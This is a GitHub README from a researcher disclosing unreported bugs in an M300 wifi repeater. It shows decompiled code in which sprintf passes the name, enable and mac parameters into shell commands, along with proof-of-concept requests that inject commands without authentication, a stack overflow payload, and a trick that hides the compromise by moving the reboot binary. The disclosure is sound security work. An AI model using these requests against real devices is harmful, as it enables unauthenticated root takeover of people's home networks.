










# m300-repeater-bugs
0 days located on the M300 mt02 wifi repeater that have not been publicly released. 

# Getting root on a wifi repeater from Temu. 

## Prologue
This repeater has been beat to crap from Valentin Lobsteins blog on it to low levels youtube videos released a few months back. I originally got this repeater in July of 2025 from my fathers temu purchase and had submitted for a CVE in early august which was not responded to. Here are some fresh bugs that have not been poked yet. I originally pulled the file system using a CH341A programmer and used binwalk to extract the filesystem. After not believing the configuration for `commuos` - the webserver binary backend, I tapped into the UART shell and started getting a look into the system live. 

All of these bugs are unauthenticated. 

## smacfilter_conf

The smacfiltering is to setup firewall rules to whitelist or blacklist MAC addresses from the wifi network. This request is made to the /protocol.csp endpoint which forwards the request to port 81 (there is a misconfiguration as well that this port is exposed to the internet explained above) and will be digested by `commuos`. The `commuos` binary has configuration options such as setup wifi passwords, set firewall rules, and mac filtering. Below are relevant decomp lines from Ghidra pulled for highlighting these vulnerabilities.

The functions of importance are `sprintf()` which is openly documented and `get_params_value()` which has a first parameter of request user input to search through and a second parameter of the key to search for. 

### Bug 1: Name parameter in SMACFilterRules: 
```
name_param_value = (char *)get_params_value(request_parameters,"name");
.
.
.
sprintf(stack_smac_command,"uci set firewall.smacfilter%d.name=%s",section,name_param_value);
```

### Bug 2: Enable Parameter in SMACFilterRules:
```
enable_param_value = (char *)get_params_value(request_parameters,"enable");
.
.
.
sprintf(stack_smac_command,"uci set firewall.smacfilter%d.enabled=%s",section,enable_param_value);
```

### Bug 3: Mac parameter in SMACFilterRules:
```
src_mac_param_value = (char *)get_params_value(request_parameters,"mac");
.
.
.
sprintf(stack_smac_command,"uci set firewall.smacfilter%d.src_mac=%s",section,src_mac_param_value);
```

### POC REQUESTS for bugs 1-3 (works with webui not being a POST request): 

```
http://192.168.11.1/protocol.csp?fname=net&opt=smacfilter_conf&function=set&act=add&name=test;%20touch%201&enable=1;%20touch%202&mac=44:44:44:44:44:44;%20touch%203
```

### Bug 4 (untested): Overflow into the stack (canary protected): 

It appears that due to the mishandling of the above parameters that there is also a stack based buffer overflow to stack_smac_command if the commands and parameters are put together with a length of over 256 bytes at a time (this is not len checked due to using sprintf everywhere). There is quite a lot of other things on the stack after it but it may be possible to blow past this data and with a successful read may be able to get a valid canary inserted (system is also only 32bit mips BE so it could be bruteforced). The canary used all over `commuos` is a global. After each command is run, the stack buffer is `memset()` to 0, clearning it out for the next command. 


```
.
.
.
//stack
  char stack_smac_command [256];
  undefined4 local_518 [65];
  char acStack_414 [1024];
  int canary;
  canary = GLOBAL_CANARY;
.
.
.
  memset(stack_smac_command,0,0x100);
.
.
.

 memset(stack_smac_command,0,0x100);
 sprintf(stack_smac_command,"uci set firewall.smacfilter%d.src_mac=%s",section,enable_param_value);
 doSystemCmdComlib(stack_smac_command);
 memset(stack_smac_command,0,0x100);
 sprintf(stack_smac_command,"uci set firewall.smacfilter%d.name=%s",section,name_param_value);
 doSystemCmdComlib(stack_smac_command);
 memset(stack_smac_command,0,0x100);
 sprintf(stack_smac_command,"uci set firewall.smacfilter%d.enabled=%s",section,src_mac_param_value);
 doSystemCmdComlib(stack_smac_command);
.
.
.
canary_check:
  if (GLOBAL_CANARY == canary) {
    return uVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
```

POC: 
```
http://192.168.11.1/protocol.csp?fname=net&opt=smacfilter_conf&function=set&act=add&name=test;%20touch%201&enable=1;%20touch%202&mac=44:44:44:44:44:44;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

### Screenshot after believed overflow/canary trip: 



### General insecure practices 1: 

The file system on the Wifi repeater is R/W which allows users to move system binaries around. I have been able to relocate the `reboot` binary which allows any downstream calls to reboot the system inoperable. Targeting the binary `commuos` which is the webui backend (written in c/++) typically forces the attacker to reboot the system. By exploiting these command injection vulnerabilities with an appended `mv reboot /` the system will no longer reboot and the commands will be run. And an end user will never know. 

### General insecure practices 2: 

Using the function `sprintf()` with user input is inherently unsafe. It is recommended to use `snprintf()` and have strong parsers around user input to have secure code. 


### Screenshots 

Here are some screenshots of the ghidra db and of the terminal after the poc is thrown. You can leverage this bug to change the password of `root` as the `commuos` binary runs as root. I will simply be creating 3 files in `/` named 1, 2, 3 using the above proof of concept (POC) request. I will not be doing more due to opensource and public information being released here and the easability of the command injection into the repeater. 



### flow of ghidra in screenshots


 


 
 



